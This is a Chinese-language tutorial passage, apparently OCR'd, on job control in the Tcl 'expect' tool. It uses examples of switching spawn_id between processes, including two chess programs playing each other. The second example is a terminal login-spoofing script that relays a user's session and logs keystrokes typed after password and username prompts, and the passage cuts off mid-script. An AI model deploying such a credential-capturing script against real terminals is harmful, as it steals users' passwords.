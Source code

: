 控制多个进程：作业控制
expect的作业控制概念精巧的避免了通常的实现困难。其中包括了两个问题：一个是expect如何处理经典的作业控制，即当你在终端上按下^Z键时expect如何处理；另外一个就是expect是如何处理多进程的。

对第一个问题的处理是：忽略它。expect对经典的作业控制一无所知。比如说，你派生了一个程序并且发送一个^Z给它，它就会停下来(这是伪终端的完美之处)而expect就会永远的等下去。

但是，实际上，这根本就不成一个问题。对于一个expect脚本，没有必要向进程发送^Z。也就是说，没有必要停下一个进程来。expect仅仅是忽略了一个进程，而把自己的注意力转移到其他的地方。这就是expect的作业控制思想，这个思想也一直工作的很好。

从用户的角度来看是象这样的：当一个进程通过spawn命令启动时，变量spawn_id就被设置成某进程的描述符。由spawn_id描述的进程就被 认为是当前进程。(这个描述符恰恰就是伪终端文件的描述符，虽然用户把它当作一个不透明的物体)。expect和send命令仅仅和当前进程进行交互。所 以，切换一个作业所需要做的仅仅是把该进程的描述符赋给spawn_id。

这儿有一个例子向我们展示了如何通过作业控制来使两个 chess进程进行交互。在派生完两个进程之后，一个进程被通知先动一步。在下面的循环里面，每一步动作都送给另外一个进程。其中，read_move和 write_move两个过程留给读者来实现。(实际上，它们的实现非常的容易，但是，由于太长了所以没有包含在这里)。
spawn chess            ;# start player one
set id1    $spawn_id
expect "Chess "
send "first "            ;# force it to go first
read_move
 
spawn chess            ;# start player two
set id2    $spawn_id
expect "Chess "
 
for {} {1} {}{
    send_move
    read_move
    set spawn_id    $id1
 
    send_move
    read_move
    set spawn_id    $id2
}
有一些应用程序和chess程序不太一样，在chess程序里，的两个玩家轮流动。下面这个脚本实现了一个冒充程序。它能够控制一个终端以便用户能够登录和正常的工作。但是，一旦系统提示输入密码或者输入用户名的时候，expect就开始把击键记下来，一直到用户按下回车键。这有效的收集了用户的密码和用户名，还避免了普通的冒充程序的"Incorrect password-tryagain"。而且，如果用户连接到另外一个主机上，那些额外的登录也会被记录下来。
spawn tip /dev/tty17     ;# open connection to
set tty $spawn_id        ;# tty to be spoofed
 
spawn login
set login $spawn_id
 
log_user 0
 
for {} {1} {} {
    set ready [select $tty $login]
 
    case $login in $ready {
        set spawn_id $login
        expect
          {"*password*" "*login*"}{
              send_user $expect_match
              set log 1
             }
          "*"        ;# ignore everything else
        set spawn_id    $tty;
        send $expect_match
    }
    case $tty in $ready {
        set spawn_id    $tty
        expect "* *"{
                if $log {
                  send_user $expect_match
                  set log 0
                }
               }
            "*" {
                send_user $expect_match